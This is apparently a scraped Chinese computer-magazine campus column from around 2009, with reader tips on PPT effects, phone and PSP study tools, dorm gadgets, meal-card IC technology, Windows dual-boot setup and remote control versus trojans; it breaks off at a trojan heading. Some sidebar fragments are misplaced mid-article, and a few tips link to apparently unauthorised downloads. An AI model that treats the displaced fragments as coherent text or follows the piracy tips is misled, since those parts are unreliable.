(PCTMG 朱叶)



在网上下载个性图片，用“矩形选框工具”将相应的图片截取，再使用“移动工具”拖入新建的画布，根据大小输入书名和其他个性元素（见图4）！

## 玩转多媒体背景，校园活动更精彩

校园里的活动可谓异彩纷呈，精彩的现场少不了多媒体投影背景，那么如何把这个背景做得既符合活动气氛又吸引眼球呢？下面就以校园主持人大赛为例，跟大家分享多媒体运用在大型活动中的经验。

想不到的幽默效果。如果你有一定的视频编辑基础，可试试Premiere的强大插件Hollywood FX，对于文艺晚会的视频背景制作很合适，效果华丽。

或将文字以图片形式插入，单击右键，选择“超链接”，链接到需要跳转的页面即可（见图5）。

## Movie Maker，小东西炫出大精彩

既然是比赛，就需要有选手的介绍。最炫的介绍方式莫过于用DV拍下选手的自我展示，在比赛正式开始前循环播放。

第1步：从“开始→所有程序”中打开Movie Maker，点击窗口右面“导入视频”将拍摄的素材导入程序中（见图1）；



第2步：点击窗口下方“显示时间线”后，可通过单击拖移剪掉多余素材；

第3步：右击剪辑好的素材片段，选择“视频效果”（见图2），弹出窗口后就可对素材添加淡入淡出等视频特效了；



第4步：剪辑并添加效果到所有素材后，选择程序窗口右边的“完成电影→保存到我的计算机”，一个简单的选手介绍视频就完成了。

> **小提示：**
有个特别有才的创意——把大片中的经典片段进行剪辑拼接，与本活动内容融合，能收到意想不到的幽默效果。

## PPT，小工具做出大新意

活动流程投影背景主要用PPT制作，有些小问题解决好了，你的PPT就能与众不同：

### 1. 如何实现简单的动画效果（用于配合参赛选手的表演）？
把编辑过的图片重叠安放到幻灯片上，然后以自动连续的方式进行播放就能完成。自动连续播放可通过“幻灯片放映→幻灯片切换”，将“换片方式”设定为合适时间间隔来实现（见图3）。利用PPT中自定义动画中的“进入”、“强调”、“退出”、“动作路径”四类效果选项的各种动作的有机结合，可形成不同的动画。



### 2. 对文字做超链接，如何避免字带有下划线，颜色又不受母版影响？
选中文本框，而不是选择文字，单击右键，选取“动作设置”项，链接到所要跳转的页面（见图4）；





### 3. 如何使两幅图片一左一右或一上一下地向中间同时动作？
安排好两幅图片的最终位置，按住Shift键，选中两幅图片；然后单击绘图工具栏中的“绘图”；接下来单击“组合”，使两幅图片变成了一个选定；最后到“动画效果”中的“时间”里选“播放动画”，“效果”里选“左右向中间收缩”即可。

### 4. 怎样利用“自定义动画”做连续闪烁的文字（用于强调活动重点内容）？
首先创建文本框，设置好其中文字的格式和效果，并做成闪烁的动画效果；复制这个文本框，粘贴多个（根据想要闪烁的时间来确定粘贴的文本框个数），再将这些框的位置设为一致；最后把这些文本框都设置为在前一事件一秒后播放，文本框在动画播放后隐藏。

### 5. 怎样插入音频文件（用于配合选手的才艺展示、渲染现场气氛等）？
点击“插入→影片和声音→文件中的声音”，选择需要播放的音频文件即可。值得注意的是，由于音频文件属于外部链接，需要保持音频文件地址在插入链接后不变，并将音频源文件和制作完成的PPT一起拷贝入比赛现场的电脑中。

### 播放准备充分才能出彩
活动开始了，要配合流程播放视频和PPT啦。考虑到方便与软件兼容性问题，一般活动会使用社团成员自带的、软件配备齐全的笔记本电脑，连接上线路后，为什么笔记本显示器中的信息不能显示在投影仪大屏上？投影仪的分辨率有限，把笔记本分辨率调整到800×600或更小即可。有备才能无患，在开始活动前，一定要伴随活动流程全程播放一次视频和PPT，检查确认每一细节，活动才能真正顺畅、精彩。
（青岛农业大学/王琳 南开大学/vivian）

## 让手机也来当你的课堂老师

新学期又来临了，校园里，看着大一新生们每天挥汗如雨地军训，就像当初自己一样憧憬着美好的大学生活。大学是幸福的，但是大学也是盲目的。开课了之后才发现，好多课真的好无趣，难道我们只能用睡觉来打发这些“无聊”的课吗？当然不！那就来谈谈如何用手机来充实我们的大学课堂吧。

### 上网看尽天下事
听大道理不如看今天发生了什么新闻来得实在。我选择的是UCWeb手机浏览器(http://www.ucweb5.cn)，最大优点在于多页面同时浏览和网站导航，类似于遨游标签卡，可以同时开启多个页面，省去了很多找页面的麻烦，而且UC具有类似hao123的wap页面导航，太方便了！输入网址3g.qq.com，就可以打开手机腾讯网，这里内容丰富，都是大家最新关注的热门信息。看新闻的同时还可以登录wapQQ和QQ好友在线聊天。如果NBA比赛时恰逢上课，手机腾讯网会推出赛事直播，文字直播既不浪费流量又让我们过足NBA直播赛事瘾！
浏览新闻时，手机上常常要分开好多页显示，一页页翻时流量也在被无情地耗费着，所以如果新闻只有4到5页，看完第一页就不要去看第二页了，直接点击“余下全文”的那个按钮吧，减少加载页面的次数，能省不少流量呢。看完新闻也不要着急按“返回”，如果想回到的页面与现在的页面没有相隔很多的页面的话，建议使用浏览器的“返回”按钮，而不是页面上的“返回”链接，这样也可以减少无谓的流量损失。

### 贴心浏览器巧“截流”
呀，手机流量还是超了，好心疼……Opera mini（下载地址：http://www.opera.com/mini）不仅可以让自己手机浏览WAP网，而且也支持浏览互联网，最大优点是十分省流量！经测试，用手机自带的浏览器打开我的手机QQ空间一般需要10K左右，而使用opera mini则仅仅需要6K，如果屏蔽图片，有时甚至仅需3K。而且每打开一个页面，下面的进度条就会显示所需流量数，很让我有安全感。要想省更多流量，还可以在Opera上设置是否屏蔽图片和显示的图片的质量。

### 小提示：书签功能速进QQ空间
登录QQ空间时，用手机输入繁琐的账号与密码很麻烦，这时书签就派上了用场。登录到手机QQ空间后进入“选项→添加书签”，QQ空间就添加到手机浏览器的书签上了，以后再次登录就不必浪费宝贵的时间与流量，只要打开手机上存的书签，就直接登录上去了。

### 英语专家随身带
英语课可不能开小差，其实大家英语语法都已经了然于胸，不熟悉的只是词汇。这就难了，总不能随身背个笨重的英汉大词典吧。这不，老师又在提问，这个单词怎么解释……头都大了，就是想不出来。手机词霸（下载地址：http://wap.iciba.com/s）不仅提供了传统的词典查询，还新增了整句翻译、英美真人发音、情景会话等等，同时提供爱词霸经典每日热词和每日一句比如今天的穷二代、Ophone、水下摄影等等，迅速变成英语达人。

### 珍贵的PPT一拍即可
晚上选修课，要开卷考试了，老师不想让大家都考一样的结果，但又不忍心什么都不告诉大家，就把PPT给大家过一遍但不让拷贝。我突发奇想，手机不是500万像素吗，拍下来再放大应该没问题。说干就干，我偷偷溜到第一排（地球人都知道，大学的课堂坐前排的人很少），在老师眼皮底下咔嚓咔嚓开拍了。不幸的是，老师听见了响声，对全班说：“没抄完的有疑问的同学可以回去问他。”最后把PPT全部拍下来，然后交给那些勤劳的同学去整理，整理完了当然少不了我的那份啦，嘿嘿！
（江苏南京/王如刚 辽宁大连/徐铭聪）

## PSP变身学习机

如今的大学生，号称“标准装备”少不了手机、PSP、笔记本、数码相机，PSP军团在飞速壮大啊！某些着实无聊的课堂上，在老师眼皮底下与同学联机《怪物猎人》，美哉！PSP不仅是我们娱乐的利器，宿舍、课堂、自习室，甚至在卫生间都有它的身影，已经渗透到我们生活的每一个角落。然而作为学生，出来混，总归是要还的，不学习怎么行？告别中学时代电子词典的单一，告别一读纸质书本就犯困的毛病，怀抱PSP吧，游戏机也能变身学习机。

### 学习英语好帮手
网上有不少可用在PSP上学习英语的软件，电子词典（见图）。其中网友自制的新东方Flash，由于PSP按键的设置，输入英文字母有些麻烦，ydict（下载地址：http://work.newhua.com/cfan/200919/ydict.rar）或“移动英语通”（下载地址：http://www.newhua.com/soft/59743.htm）都可以，而Flash播放PSP有限制，PSP 1000只能播放不超过2M的文件，在浏览器直接输入file:/文件夹/文件名，如file:/english/lesson01.swf也可以把Flash转换成MP4再播放。



词典和Flash只能看，听说怎么办？四六级辅导教程一般都有配套光盘，里面的MP3自然不用多说，放在小P里面，反复听吧。网上也能搜索到大学英语四六级配套听力的LRC歌词，在放MP3的时候同步看到，效果很好。实际上原版的英文影视剧对英语听说也是不小的锻炼，推荐《老友记》共237集（下载地址http://www.verycd.com/topics/265854），坚持看下去，给自己打造出一个虚拟的英语环境，而且小P的屏幕够大，清晰度高，在娱乐中学习听说能力会有不小提高。

### 课件 PPT 也通吃
老师提供的课件很重要，是平时温习知识、考试突击复习必备材料。PSP无法直接播放PPT幻灯片，可在PPT里另存为JPG等适合的图片格式，但拷贝到PSP里的图片要注意顺序。一些Word文档的练习题可以直接转换成TXT格式，用Xreader看还是挺方便的（下载地址：http://work.newhua.com/cfan/200919/Xreader.rar）。

毕竟PSP不是为学习而生，要求不能过高，复杂一些的功能无法实现，主要是可用软件少，学习是一件持之以恒的事情，再好的工具也只是辅助，关键还是要平时多刻苦用功哦。
（北京/柴涛）

## 我的宿舍生活之IT篇

我们大宿舍在8楼，一共16个人，分4个房间，有客厅和卫生间加两个阳台，环境还不错，说起我们的IT生活，那是非常happy！

### 电脑排排坐
电脑基本每人必备，宿舍生活的大部分就由可爱的电脑支配了！有人为了体验宽屏高速直接搬来了台式机，有人从学校FTP中下载最新的大片或者喜剧片（最近宿舍流行“爱情公寓”这部喜剧连续剧）；有人利用闲暇时间放松放松，同宿舍的一起玩QQ对战游戏等等，有时两个人玩得激动起来会大叫，然后整个大寝室的人都夺路而逃；还有的同学也会拿电脑来学习，包括看老师的课件、做习题、到网上看些视频教程，自己动手写写程序、做做网站等等……电脑已经成为同学们必不可少的工具之一！我要向用本本的各位推荐两样东西：笔记本散热器和USB外接键盘。大家平时用本本的时候，一般散热情况都不好，很容易发生烧坏主板的现象，我就曾经两次将显卡烧坏，虽然是免费维修，但是手续还是很烦，而且对电脑伤害大，何不用散热器给本本也扇扇风，一举两得？再者就是USB外接键盘，众所周知，本本键盘还是很脆弱的，对于每天都要用电脑的我们，键盘势必要承受很大的压力，何不给本本加一个外接键盘？不仅可以像台式机一样自由输入，而且还保护了本本键盘不受破坏。

### 手机智能秀
除了电脑当然最应当提及的就是手机了！这个又是普及率百分百的，甚至是过百的，因为好几位达人都有两个手机呢，大家都在向智能手机靠拢，手机必定是可以上网、听音乐、玩游戏的！而且手机还有个重要功能就是闹钟，每天早上7点的时候，宿舍里面那是此起彼伏啊……

### 移动播放器
说到听音乐，当然少不了MP3、MP4啦！手机没电的时候，摘起耳机，听听流行音乐，真的是大学一大享受啊！另一个用得最广泛的是U盘移动硬盘。大家平时都会随身带一个移动硬盘，以防老师上课会有课件什么的需要拷贝，以不变应万变。况且平时大家有个什么好软件共享的时候，可以直接用闪盘互拷，而经常重装系统的我们，如果可以用移动硬盘把软件和驱动备份下来，方便快捷！
（南京航空航天大学/王如刚）

## 数码宝贝的故事

大家好，我是Nicole，还记得本栏目刊登过的关于站徽、站衫制作的文章吗？那里面亲自动手做徽章的就是区区在下啦！我就读于北京师范大学艺术与传媒学院，目前是数字媒体专业研三的学生。因为我的专业，也因为周围对电子产品极度痴迷的宅男们，让我逐步开始对各种数码产品产生了浓厚的兴趣。从小喜欢做做手工、缝缝娃娃的我迷恋一切精致、细腻的东西，我的数码产品可以这样总结：看起来很杂、听起来很酷，用起来很炫，摆着心里很得意！

我有两台笔记本电脑，先说比较普通的一台，型号是DELL Latitude E5400，全黑色的外观，方方正正。虽然我是女生，可是我从来不喜欢颜色款式过于花哨的本本，这款当时算是中端的商务本了，15英寸的宽屏加上强悍的芯，做设计图、玩游戏、办公什么的绝对绰绰有余，Photoshop、Illustrator、Flash再加上其他软件同时运转也非常流畅。不过，这次要着重介绍的可是另外一个可爱的小家伙，它是HTC旗下的一款智能手机——HTC Shift X9500。麻雀虽小五脏俱全！它的做工、功能和价格令同期的上网本难以望其项背。它具有7寸可触摸超大屏幕，外置摄像头，外形和重量都酷似一台迷你笔记本电脑。大屏高分辨率显示效果自然清晰、细腻，而且还配有代替鼠标的触摸板、触摸笔和指纹锁。操作极其简单。特别值得一提的是，这款智能手机还能像变形金刚一样瞬间变形，将它的上半部分推开，折叠，它就立刻变身成为一台乖乖坐在你面前的微型电脑，Windows Vista Business操作系统，支持外接SD扩展卡，还同时拥有蓝牙、WiFi等功能。想当初我们在马尔代夫honey moon的时候，就是靠它保存了数以千计的珍贵相片哦！

咦？这是什么手机？哈，黑莓嘛！BB大家都知道，但女孩子用BB，尤其是9000的应该不多吧！可我就偏偏爱上了看起来很Man的BB！不得不说的是，用过BB高端机以后，确实对它产生了无限的好感呢！外放那个立体，屏幕那个鲜亮，皮质后盖那个奢华，发短信那个快，快捷键那个方便，和谷歌功能整合得那个天衣无缝……BB还是因人而异了，中移动的500元每月的签约不是谁都用得起的，于是在只能遥望AppStore和BIS的中国，BB还是不得不“被赠送”了些许遗憾。还记得当初买它的时候，我第一个问题就是问有没有地方挂手机绳，结果当时就被老板鄙视了，不过揣着它回到家，我仍然第一时间在上面系上了一只可爱的小白兔，让我这台酷酷的黑色BB顿时变得温顺了不少！

对了，我不得不说伴随了我近6年的NDS，为生计而忙碌的如今，我也难以抑制不时捧起它重温当年激情的惯性。还记得那时我的两个死党每天抱着两个NDS玩应援团，看着他们跟着节奏点得不亦乐乎，让我也有了拥有它的冲动！就这样，小N来到了我的身边，我疯狂迷恋上了用笔点点画画玩游戏的方式。“一笔吃豆”让我曾经因为卡在某关过不去而吃不下饭；“超级玛丽”让我在睡梦中辛苦地与怪物搏斗，以致早晨腰酸背痛；“节奏天国”让我和妹妹连续两天刷夜闯关，毫无倦意；“动物管理员”让我和老公从同学变成了爱人……NDS的游戏性是独特的，你可以说它不如PSP刚猛激烈，但其实它给我带来的，更是那种如和煦阳光般柔和的体贴，独乐其中的超然。呵呵，说了这么多，读者MM们，你们的闺中秘宝不妨也让我知道吧！欢迎来我的博客http://rrixi.com分享交流哦！
（北京师范大学/郭梦冉）

## 手机故事，来自国庆阅兵民族方队里的姐妹花

大家对刚刚结束的国庆阅兵是否还记忆犹新呢？五十六个民族，五十六枝花，由中央民族大学的少数民族同学们组成的“爱我中华”方阵一定吸引了不少目光。小编大熊深入方阵，带你倾听美丽的少数民族姑娘们的IT故事。
Mirror是蒙古族的可爱女孩，她告诉大熊，手机在方阵训练期间发挥了非常重要的作用。学校特地为此次训练开辟了短信平台，通知信息会在第一时间发送到参训同学的手机里；同学们用短信反馈的方式和学校领导们沟通，把意见和建议第一时间反馈给学校，心结很快就能解开，大家参加训练的热情也就更加高涨了。
小全也是蒙古族的女孩，笑起来有甜甜的酒窝。她说，大家虽然顶着酷暑训练，有人病倒也有人受伤，但是大家都在训练场上坚持着，没人轻易退缩。训练虽然辛苦，但在间歇中，这帮大孩子们也不会闲着，纷纷掏出自己的手机、播放器，听歌是最好的放松方式。
小宁是开朗的满族女孩，她拿出自己的诺基亚N85，给大熊展示训练间隙她的“偷拍”成果：东倒西歪地打盹、各式嬉戏打闹、搞怪的表情，还有表演时美丽的民族服装，都一一记录在其中。有空闲了，大家也会聚在一起，打开蓝牙互传照片，很开心。

各民族的同学们说，在2009年的这个夏天，为了祖国的60岁生日，很多人放弃了和家人团聚的机会坚守在这里，他们用执着和汗水书写着献给祖国母亲的华美乐章。国庆那天，他们用最优美的舞姿、最灿烂的笑容，把团结友爱的五十六个民族青年的风貌展现给了世界！
大熊点评：训练场上巾帼不让须眉，训练场下一笑百媚众生。国庆阅兵镜头里的民族金花，原来如此可爱！民族大团结，信息时代迎盛世。祖国母亲，生日快乐！
（本刊实习记者/刘家艺(大熊)）

## 极客系列之饭卡解密

饭卡、洗澡卡、借书卡……大家在校园里天天拿着卡，它们到底有什么秘密呢？

解剖饭卡
1974年，法国人Roland Morono发明了IC卡（Integrated Circuit Card，集成电路卡）。将具有存储加密及数据处理能力的集成电路芯片模块封装于塑料片基中。
饭卡个子虽小，却很智能，是IC卡的一种。大部分饭卡在使用时不需要接触刷卡机，所以它们属于非接触式IC卡，又叫做射频卡。饭卡内有IC芯片和感应线圈组成，被封装在PVC（聚氯乙烯，一种塑料）卡片内。卡片在一定距离范围靠近读写器，通过无线电波的传递来完成数据的读写操作，读写快、容量大、加密好、数据记录可靠。
每个食堂有很多刷卡机，这些刷卡机和机房相连，饭卡里其实只存储同学们的账号信息，不存储余额信息。当饭卡接近刷卡机后，刷卡机读出账号信息并送到机房的计算机里，计算机根据这个账号调出数据库，里面存储着使用信息和余额信息等。打饭的师傅通过按键，向机房的计算机发送命令，比如打5元还是8元，机房的计算机就相应地扣减这个金额。学校发饭补的时候，统一通过计算机操作就可以加钱了。个别同学研究通过什么秘密武器刷一下，饭卡的钱就可以多起来，就是异想天开啦！
洗澡卡的原理也相似，在洗澡过程中能自动按时间扣费，达到解决用水、智能计费的目的。后起之秀“校园一卡通”本领更大，吃饭、洗澡、借书、购物等一卡搞定，非常方便。

IC卡家族
在校园外，还有很多饭卡的兄弟姐妹，有银行卡、公交卡、电话卡、商场积分卡……
公交卡在乘车时自动扣减，充值时由计算机写入数额，原理与饭卡很接近。
信用卡记录着用户的卡号、权限、资料、余额等，一刷卡，网络马上传到服务器里告诉该号要办理业务。打个简单的比方，开户是在数据库增加一条记录，消户是删除该记录，查询余额是查询数据库记录，查询交易记录就是查询数据库的更新日志，挂失是将该记录加锁。
怎么样，IC卡家族非常庞大吧？其实看看你钱包里卡的数量就知道了。注意各卡最好隔开存放，小心消磁哟！
（PCTMG 朱叶）

## 北大精灵的数码情节

大家好，我是小E，来自北京大学。现在念研一，专业是媒介经营管理。说起数码产品，绝对是我话题的兴奋点啊，光各种数据线就有一大把。这些手机、笔记本电脑、录音笔、相机、MP3……给我带来的便捷和帮助实在是太多太多。对待数码产品，要选择适合自己的，开开心心地利用它们使生活更便捷。
我的手机中，我最中意的是诺基亚E71。今年3月下江南玩了一趟，此手机的GPRS和谷歌地图、谷歌搜索搭配起来，大显身手。
我们一行从杭州到乌镇到苏州到扬州，再北上到南京，一路打尖吃饭、晓行夜宿、吃喝玩乐，统统都靠这只小机器搞定了。比如我们游完西湖，已是傍晚，偏偏出行攻略忘记带，于是我掏出E71，上网搜索了一下杭州的推荐的饭店，锁定“外婆家”，再用地图功能找寻好了路线，在路边拦住一辆的士直奔饭店。在的士上也不时用GPRS定位一下，这样司机就不敢生绕路啦。很快便到了餐厅，饕餮一顿美食，怎一个“爽”字了得！
有课的日子里，我的包包里总是放着一支奥林巴斯DS-40的录音笔。它的录音质量非常赞，体积不大，录音时间长，正好是我的那杯茶。平时上课我都会录音，课后复习，但凡有不解的地方，常常回放一下老师的讲课，问题就很快解决了。偶尔不小心在课上睡着了，也不用懊恼，回去听听录音，一切就都搞定啦！同学们经常来找我把录音拷贝过去，大家一起分享呢！
说到本本，我是不折不扣的Thinkpad X系列的粉丝。从最早的X31到现在的X61，这么多年来，我不管怎么换本，一直对端端正正的“小黑”们不离不弃。由于专业的原因，我对键盘的使用非常频繁，且经常需要带着本本满世界跑，所以，一款实用而小巧的本，对我实在是意义重大。有人曾经问我，这世上小本本很多，为啥要选外观如此漆黑的小黑？其实小黑独得我心的重要原因就是它的外观，够稳重够端正，正好平衡一下我的长相给其他人带来的幼稚感。
此外，还有伴随我的佳能相机们，从卡片到单反，它们给我带来友情、带来成就，让我有另一种方式看世界，有另一种语言表达自己。这些数码产品已经不可或缺，成为我生活的延伸的触觉，感知更丰富的世界！如果你想与我分享数码心情，就发邮件吧 (amelia219@yahoo.com.cn)！

## 宿舍IT宝贝秀系列之陕西师大宿舍IT设备展

女生也玩IT设备啦！这些设备不仅好用，还拥有美丽可爱的外观呢！大学四年，我们357宿舍里的IT设备经过不少次更新换代，现在可攒着不少好宝贝呢！
必不可少的无线路由器：我们宿舍里只有一个网络端口，如果使用网线和路由器连接的话，可就要绕着整个宿舍布线，那宿舍可就成了盘丝洞啦！所以，为了宿舍上网方便，我们购置了一台无线路由器，彻底摆脱了网线的纠缠。这下，我们就可以随时随地上网，甚至可以躺在床上看韩剧，呵呵！
美丽的小本本：笔记本方便携带，使用起来很方便，而且我们还可以带着本本到图书馆蹭网（我们学校图书馆提供免费无线网）。带上一杯饮品，打开笔记本，惬意地享受网络带来的快乐。这是我们大学时光经常的场景，对于快要毕业的我们来说，真的很怀念、很珍惜。而且，我们的笔记本可都是很美丽的，是我们精挑细选的宝贝。
可爱的电脑外设：我们宿舍的女生都很喜欢可爱的电脑外设，出去逛街的时候还会收集各种可爱的宝贝。例如，Hello Kitty的鼠标，按键是红色的蝴蝶结，滚轮位于蝴蝶结中间；米妮的鼠标，不仅外观好看，灵敏度也很高；还有米妮的键盘，接到本本上，使用起来很方便。对了，我们还有一只可爱的小恐龙U盘呢！它为我们赢得不少关注的目光！
数码设备一个也不能少：数码相机、DV、MP3、PSP，这些设备一个也不能少！春天来了，用DV记录我们快乐的脚步；夏天来了，暑期的旅途中MP3也是必不可少的；秋天来了，晒着秋日的阳光享受PSP带来的乐趣；冬天来了，用相机记录被白雪包裹的校园……
果果：校园生活总是充满着乐趣，加上这些IT设备的陪伴，大家的生活更加丰富多彩。刚入校的同学、毕业班的同学，记起我们一起游戏，一起郊游，一起快乐，一起嬉闹……在这些普通的IT设备旁有多少快乐的回忆啊！
（PCTMG 李绚）

## 电脑助阵，考研奋战50天

2010年全国硕士研究生入学考试网上报名和现场确认已经完成，考研正在进入倒计时……
去年，我成功地通过研究生入学考试让学业更上一层楼。作为过来人，我深知最后一个月的“临门一脚”踢得好坏直接关系到考研结果，甚至是自己的未来。如何做到胜券在握呢？制订学习计划必不可少。借助于计算机、手机软件和网络资源的帮助，大大提高学习效率，获得宝贵信息更为重要！在宿舍、自习室、阅览室……有线和无线网络都很方便，奋战50天，冲刺！

把好方向，科学制订学习计划
首先要明确考试内容，公共科目的卷子怎么考都跑不出考试大纲，要紧紧抓住；对于专业考试的内容，要关注目标院校的网站上招生简章等信息，如果连专业参考书是什么都不一知，就危险了。
要选择合适的练习题，不要过分依附他人的说法来购买，或者企图以数量取胜。建议参考自己的水平和时间来选择，练习不在多而在精。
制订科学的学习计划特别重要，可以借助Excel表格来制作。
注意不要把每一天都排得满满的，要适当留点空余时间来调整进度，回忆总结，同时也让自己轻松一下，调节紧张的心情！

分秒必争，贴心软件来提醒
人都是有惰性的，而且有忘性，要是找个贴身伙伴随时提醒自己抓紧复习就好了。如果随身带着手机，就没问题！
手机除了打电话、发短信、当闹钟外，还有很多功能哇！比如诺基亚手机自带的“日历”功能，进入相应的日期，就可以写上“备忘”文字——下午2点真题模拟练习、设置是否有闹钟提示、是否重复、闹钟时间等。在备忘当天的手机主界面上，就能看到这条醒目的提示。到了时间闹钟会尽职地提示你。“备忘录”“闹钟”等设置小提醒方法相似。其实手机的“秒表”功能也很有用，计时精确、飞跑的数字给你紧迫感。如果你做到一半着急对答案，还可以暂停计时；如果用“定时器”就是倒计时，看个人习惯了。对了，手机自带的英语词典不错，不过做真题时千万别依赖它，做完了再请教。
现在用智能手机的同学很多，大家是否安装了时间管理软件来提高自己的学习效率呢？ HandyClock V4.08 掌中时空 (下载地址：http://work.newhua.com/cfan/200923/HandyClock.rar) 是一款不错的S60系统时间工具软件，除闹钟、计时、秒表功能外，还有整洁贴心的掌上日历，以及方便的日程记录，可对学习方案、时间进行详细记录，并可导出为PC文本。“时间记录”功能可以实现时间的分项累计记录，方便统计学习不同科目的时间，有利于从宏观上分配复习时间。
如果你只习惯用PC进行时间管理，没关系。考研时就使用了系统自带的桌面小提醒，帮助很大。我使用的是Vista系统，自带Windows边框，不仅有时钟和日历，还有很好用的便签。在边框上单击鼠标右键，选择“添加小工具”，在弹出的对话框中选择“便签”添加便签，在上面输入相应的内容即可。把总的计划安排以及近期辅导班的上课时间放在上面，每天上自习回来打开电脑看新闻、查信息，这时看着电脑桌面上的便签任务，很方便！
此外，用鱼鱼桌面（下载地址：http://www.newhua.com/soft/42557.htm）、雪狐提醒簿（下载地址：http://www.newhua.com/soft/2469.htm）等来添加便签，也能达到类似的华丽效果。

免费个饭，网络资源藏珍宝
考研论坛http://bbs.kaoyan.com：根据同学校、专业、考生类别分类。
考试吧考研频道http://www.exam8.com/xueli/kaoyan：考研新闻更新快，便于及时掌握考试动态、资料、真题、模拟分类清晰。
考研吧http://kaoyanbar.5d6d.com：有很多免费的考研资料，包括政治、英语、高数等。还有针对各个大学的版块，研友可交换信息，分享资料。
优酷网考研http://so.youku.com/search_video/q_%E8%80%83%E7%A0%94：有很多牛人分享的考研班视频资料。
沪江考研——数学http://kaoyan.hjenglish.com/math：高数资料丰富。
“考研”百度贴吧：很多人在谈经验。
考研群：进入“查找→群用户查找→分类查找”，输入关键字“考研”，确定后申请加入即可。
以上可是我这个过来人的不传秘技，一定能帮助你决战考研之巅！
（PCTMG 李绚）

## 本是同根生 因何不共存

原题重现：如何解决不同分区下Windows 7和Ghost版Windows XP引导问题。
当看到这道挑战题目，我毫不犹豫地把C盘的Windows XP换成Windows 7系统（呵呵，挑战才是硬道理嘛）。难道Windows 7和Windows XP真的无法正常共存？答案是否定的。实现起来会很复杂吗？非也，不信？请听我一道来。

- ★第一步：完成这次挑战需要借助三样法宝。Onekey Ghost Y6.3（以下简称OG，下载地址：http://down.tech.sina.com.cn/content/42564.html）Vista优化大师绿色版（下载地址：http://www.vista123.com/vistamaster/）Acronis Disk Director Suite（以下简称ADDS，下载地址：http://www.onlinedown.net/soft/60026.htm）
- ★第二步：在Windows 7系统下，安装并运行ADDS。在主窗口的分区列表中右击D分区（这里假设安装XP系统的分区为D分区），在菜单中选择“高级”，然后选择“转换”。打开“转换分区”窗口后，在“主/逻辑”下拉框中选择“主分区”，最后执行菜单栏中的“操作/提交”命令保存设置就可以了。
- ★第三步：成功将D分区转换成主分区以后，系统里就有两个主分区了，其中C分区是活动的主分区，也是Windows 7的所在分区。将准备好的OG.ylmf.gho（文件是从Ylmf Ghost XP SP3 V6.0中提取出来的）和Vista优化大师放在一起，如E:\tiaozhan。
运行OG，在主窗口中选择“还原系统”，在“Ghost映像文件路径”下通过“打开”定位到E:\tiaozhan\下的Ylmf.gho。接着单击D分区，一定要确保D分区为被选中状态，我就因为一次失误，导致把系统Ghost到C分区，不仅没有达到挑战的目的，还把我原来的Windows 7给覆盖了，所以强烈建议事先做好备份。
- ★第四步：重启后，在启动菜单中选择OG进行还原，等到还原操作结束后，会再一次重启，然后直接进入Windows 7系统。这时，右击“我的电脑”，选择“管理”项，在窗口中，单击左侧列表中的“磁盘管理”，接着右击D分区，然后执行“将磁盘分区标为活动的”项。这时，D分区就变成活动的主分区了。重新启动后就会进行Windows XP系统的安装了。
- ★第五步：Windows XP系统安装好以后，这时右击桌面上的“我的电脑”，然后选择“管理”命令，在新打开的“计算机管理”窗口中，单击左侧列表中的“磁盘管理”，接着右击C分区，然后执行“将磁盘分区标为活动的”命令，最后点击“是”按钮并手动重新启动系统。
- ★第六步：这次重启会直接进入Windows 7系统。这时，启动E:\tiaozhan下的Vista优化大师，在主界面中单击“系统设置”，然后单击左侧列表的“启动设置”，接着切换到“多系统选择”项，点击“添加”按钮，在“系统类型”选中“其他/（XP/2003/2000/98/ME）”，在“系统名称”栏中输入Microsoft Windows XP，在“系统位置”下拉框中选择Windows XP所在分区（即D分区），最后单击“确定”按钮即可。
到现在为止，挑战任务就结束了。重启以后，我们就可以自由选择想进入的系统了。
小编点评：其实系统所在的分区是否激活是很重要的，很多人在安装Linux、Mac OS系统时才会想到的问题，其实在安装了两个Windows时也需要注意、
挑战者：郑伟龙

## 千里电脑一线牵 你被遥控了吗

“你的电脑被远程控制了”！大多读者听到这句话时都会感到心惊胆战，当计算机与远程控制这两个词语关联起来时大家就会想到：账号丢失、隐私全无、自己电脑成了黑客的玩偶。难道远程控制就是这样一种让人闻之恐惧，中者崩溃的技术吗？
其实生活中很多地方都用到远程控制技术，比如：远程办公、QQ远程协助、Windows操作系统的远程桌面链接，这些都是基于远程控制技术实现的。远程控制技术就像一把双刃剑，在其远程控制技术的基础上分别产生了远程管理软件和远程后门木马程序。很多读者都感觉远程控制软件和木马无法区别，我们来做个比较，方便读者了解远程控制软件与木马程序的区别：

| 类别 | 相同点 | 不同点 |
|---|---|---|
| 远程控制 | 采用了相同的数据管理结构，被控制端都需要安装软件；都可以进行远程资源管理，比如文件上传、下载、修改；都可以进行远程屏幕监控，键盘记录，进程和窗口查看。 | 木马程序具有破坏性、隐蔽性、偷窃行为、强制传播的特点 |
| 木马程序 | | |

### 菜鸟MM与远程控制的亲密接触

小菲MM是典型的白领电脑菜鸟，一天，电脑公司更新OA办公系统，小菲MM只能无奈地找网管帮忙。网管太忙，就用系统自带的远程连接帮她完成了操作。小菲好奇地追问N久，网管哥哥才给MM讲述了远程协助的过程。

> 自动清除不联系的好友

原题重现：QQ现在已经可以标出半年没有联系过的好友了，那有没有方法可以自动清除这些常年不联系的好友呢？
其实，腾讯已经想到了这一点。这项应用在QQ 2008版已经推出。具体方法如下：如果你的组中有半年没登录的好友，在“添加用户”下会出现“删除本组半年未登录好友”点击就成了（只有具有“半年未登录的好友”时才会显示出来）。
小编点评：为什么QQ 2009没有找到这个选项呢？难道是消失了……
挑战者：山东/苏士涛

先是用户利用协助插件向服务端发出请求，当被请求控制的用户同意后建立连接隧道。然后用户申请启动远程控制插件，被控制用户同意后计算机启用控制插件，从而实现远程管理（如不开启远程控制插件，协助插件只能看到对方计算机桌面，而无法操作）。
聪明的小菲想到，既然可以远程协助安装程序，那我是不是可以在家远程操作公司计算机办公呢？当然，在电脑中安装Remotely Anywhere后，我们就可以在任意的计算机远程连接到办公电脑；在浏览器地址栏中输入http://61.99.*.*:2000（IP地址为被管理计算机的公网IP）就会出现登录页面，输入管理密码，就能在IE浏览器中远程管理。

> 小知识：什么是远程控制技术：
远程控制是在网络上由一台电脑（主控端Remote/客户端）远距离去控制另一台电脑（被控端Host/服务器端）的技术，当操作者使用主控端电脑控制被控端电脑时，就如同坐在被控端电脑的屏幕前一样，可以启动被控端电脑的应用程序，就像你利用遥控器遥控电视的音量、变换频道或者开关电视机一样。

### 菜鸟MM与灰鸽子木马的惊险接触

